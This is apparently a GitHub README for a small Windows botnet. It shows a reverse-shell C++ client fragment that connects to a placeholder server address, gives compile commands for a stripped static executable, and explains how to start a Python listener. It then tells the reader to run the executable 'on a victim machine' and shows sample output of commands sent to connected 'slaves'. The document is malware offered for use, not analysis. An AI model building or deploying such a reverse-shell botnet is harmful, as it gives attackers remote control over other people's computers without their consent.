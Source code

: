 # Simple Botnet Server and Executable on C++ and Python

  ## Usage:
 
 ### Specify address and port of botnet server in main.cpp: 
 ```sh
void RevShell()
{
    WSADATA wsaver;
    WSAStartup(MAKEWORD(2, 2), &wsaver);
    SOCKET tcpsock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = inet_addr("[address_of_botnet_server]");
    addr.sin_port = htons([port]);
...
}
``` 
  
  ### On Linux Compile Using:
  ```sh
 $ i686-w64-mingw32-g++ -std=c++11 main.cpp -o [name_of_executable].exe -s -lws2_32 -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
### On Windows Compile Using:
  ```sh
 $ g++ -std=c++11 main.cpp -o [name_of_executable].exe -s -lws2_32 -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

### Start Botnet Server:

  ```sh
$ python3 Botnet_server.py <LHOST> <LPORT> //To Start listener
```

### Run executable on a victim machine and then you can run commands:
#### Currently only "pwd , whoami, hostname, exec, and exit" commands are supported.
#### You can extend functionality by adding other snippets from WINAPI 

  ```sh
$ [+] Starting Botnet listener on tcp://127.0.0.1:8080

BotCmd> [*] Slave 127.0.0.1:51232 connected with Thread-ID:  Thread-2
[*] Slave 127.0.0.1:51234 connected with Thread-ID:  Thread-3

BotCmd> whoami
[+] Sending Command: whoami to 2 bots
Doe

BotCmd> pwd
[+] Sending Command: pwd to 2 bots
Z:\home\Doe\Desktop\

BotCmd> 

```
## Credits:

### Thanks to [paranoidninja](https://github.com/paranoidninja/) for an amazing [blogpost](http://niiconsulting.com/checkmate/2018/02/malware-development-welcome-dark-side-part-1/)! 


